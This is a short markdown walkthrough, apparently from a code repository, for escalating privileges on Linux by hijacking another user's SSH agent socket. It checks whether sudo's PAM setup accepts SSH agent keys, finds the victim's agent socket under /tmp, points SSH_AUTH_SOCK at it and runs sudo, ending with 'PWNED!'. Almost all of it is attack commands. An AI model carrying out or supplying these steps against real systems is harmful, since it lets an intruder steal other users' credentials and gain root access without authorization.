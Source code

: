 ## STEPS:

### 1) Check if PAM for sudo has been configured to accept SSH keys: 

    cat /etc/pam.d/sudo

### File contents

    auth sufficient pam_ssh_agent_auth.so file=/etc/ssh/sudo_authorized_keys

    session    required   pam_env.so readenv=1 user_readenv=0
    session    required   pam_env.so readenv=1 envfile=/etc/default/locale user_readenv=0
    @include common-auth
    @include common-account
    @include common-session-noninteractive

## 2) Check if the user that has signed in has used sudo: 

    ps aux

## 3) Find an SSH agent socket file fot the shell process we can access: 

    ls -la  /tmp/ssh-WHATEVER/agent.####

## 4) 

    export SSH_AUTH_SOCK=/tmp/ssh-WHATEVER/agent.####

## 5) 

    ssh-add -l

## 6) 

    sudo -l

## 7) PWNED!
